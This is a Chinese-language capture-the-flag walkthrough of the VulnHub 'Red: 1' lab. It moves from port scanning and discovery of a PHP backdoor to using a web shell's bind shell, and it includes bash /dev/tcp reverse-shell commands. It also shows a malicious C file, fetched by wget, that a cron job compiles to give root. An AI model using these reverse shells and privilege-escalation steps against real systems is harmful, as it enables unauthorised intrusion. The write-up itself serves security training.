靶场搭建
靶机下载地址：Red: 1 ~ VulnHub
下载后直接使用 VMware 或 VirtualBox 导入即可。攻击机使用 Kali Linux，靶机网络设置为 NAT 模式。难度：中等。
信息收集
主机发现与端口扫描
使用 arp-scan 发现目标主机：
arp-scan -l扫描端口：
nmap --min-rate 1000 -p- 192.168.21.130
nmap -sT -sV -sC -O -p22,80 192.168.21.130
开放端口：22（SSH）、80（HTTP）。
Web 信息收集
访问 80 端口：

页面中有一个链接，点击发现无法直接访问：

但页面告诉了你域名 redrocks.win，修改 hosts 文件（/etc/hosts）将域名指向靶机 IP：


页面底部发现 "hacked by red"，暗示可能存在后门文件。
后门扫描
使用 gobuster 扫描 PHP 后门文件：
gobuster dir -u http://redrocks.win/ -w CommonBackdoors-PHP.txt（字典来自 SecLists CommonBackdoors-PHP.fuzz.txt）

成功找到后门文件，访问看看：

页面纯白，没有内容：

NetworkFileManagerPHP 利用
从 GitHub 找到对应源码：NetworkFileManagerPHP.php
这是一个功能强大的 PHP WebShell，内置多种功能：文件管理、端口扫描、FTP 爆破、反弹 Shell 等。关键参数：
action=bash— 绑定端口 4000 的 Shellaction=portscan— 端口扫描action=exploits— 利用模块action=down— 远程文件下载
端口列表中包含 4444 = KRB524，这是该靶机的关键漏洞入口。
访问后门并添加参数即可执行命令：
http://redrocks.win/infos.php?action=bash这会绑定一个 Shell 到 4000 端口，用 telnet 连接即可获取初始访问。
反弹 Shell
直接使用后门的 bindshell 功能连接，或者通过命令执行反弹 Shell：
bash -c "bash -i >& /dev/tcp/192.168.21.131/4444 0>&1"
获取稳定的 TTY Shell：
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo;fg
# 输入 reset
stty rows 46 columns 188权限提升
首先查看当前用户可执行的 sudo 命令：
sudo -l
发现 ippsec 用户可以通过 /usr/bin/time 以 sudo 权限执行命令：
sudo -u ippsec /usr/bin/time /bin/bash但这只能切换到 ippsec 用户，仍需进一步提权。使用 pspy64s 监控后台进程：



发现 /var/www/wordpress/.git/supersecretfileuc.c 会被定期编译并执行。删除原文件并写入恶意 C 代码：

# supersecretfileuc.c
int main() {
char *argv[] = { "/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.21.131/6666 0>&1", NULL };
execve("/bin/bash", argv, NULL);
return 0;
}上传文件到靶机：
wget http://192.168.21.131:8000/supersecretfileuc.c
等待后台 cron 任务自动编译并执行该文件。监听本地端口：
nc -lvnp 6666连接成功，获取 root 权限，查看 flag：
